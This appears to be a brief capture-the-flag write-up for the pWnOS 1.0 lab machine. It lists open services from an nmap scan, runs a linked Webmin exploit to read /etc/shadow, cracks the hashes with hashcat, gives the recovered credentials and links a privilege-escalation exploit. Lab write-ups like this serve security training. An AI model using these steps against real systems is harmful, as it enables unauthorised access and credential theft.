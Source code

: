<h1>pWnOS: 1.0 Write-up</h1>

<h2>Nmap</h2>

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
```

<h3>Exploiting Port 10000</h3>

Exploit : https://www.exploit-db.com/exploits/2017

```perl exploit.pl  192.168.123.131 10000 /etc/shadow 0 ```

crack linux passwords with hashcat

```hashcat -m 500 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/sqlmap.txt```

Username: **vmware**
Password : **h4ckm3**


<h2>Privilege Escalation</h2>

Exploit : https://www.exploit-db.com/exploits/5092

